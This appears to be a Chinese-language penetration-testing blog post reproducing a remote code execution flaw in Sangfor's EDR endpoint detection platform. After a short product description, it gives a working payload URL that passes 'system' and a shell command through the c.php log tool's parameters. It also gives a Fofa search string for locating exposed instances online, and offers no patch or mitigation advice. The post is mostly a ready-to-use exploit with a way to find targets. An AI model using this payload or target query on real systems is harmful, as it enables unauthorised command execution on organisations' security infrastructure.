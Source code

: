 ```yaml
---
title: 深X服 EDR终端检测系统RCE漏洞复现
top: false
categories:
- 渗透测试
tags:
- RCE
- 深信服
abbrlink: 37031
date: 2020-08-17 22:11:48
keywords:
summary:
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/rce11.jpg
password:
---
```




#### 简介

深信服终端检测响应平台EDR，围绕终端资产安全生命周期，通过预防、防御、检测、响应赋予终端更为细致的隔离策略、更为精准的查杀能力、更为持续的检测能力、更为快速的处置能力。在应对高级威胁的同时，通过云网端联动协同、威胁情报共享、多层级响应机制，帮助用户快速处置终端安全问题，构建轻量级、智能化、响应快的下一代终端安全系统。



#### EDR的界面

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/rce11.jpg"></img>





#### RCE Payload

```bash
https://xxx.com:xxx/tool/log/c.php?strip_slashes=system&host=id
```

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/rce22.jpg"></img>





#### **Fofa关键字** 

```bash
title="终端检测响应平台"
```

